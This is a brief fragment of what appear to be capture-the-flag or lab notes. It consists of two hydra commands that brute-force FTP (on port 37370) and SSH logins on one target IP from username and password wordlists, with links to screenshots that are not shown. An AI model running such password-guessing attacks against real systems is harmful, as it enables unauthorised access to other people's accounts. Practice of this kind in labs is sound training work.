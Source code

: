 ```
hydra -L user.txt -P pass.txt -s 37370 10.10.132.96 ftp
```

![[Pasted image 20230527171349.png]]

```
hydra -L user.txt -P pass.txt 10.10.132.96 ssh
```

![[Pasted image 20230527182721.png]]

![[Pasted image 20230527191348.png]]

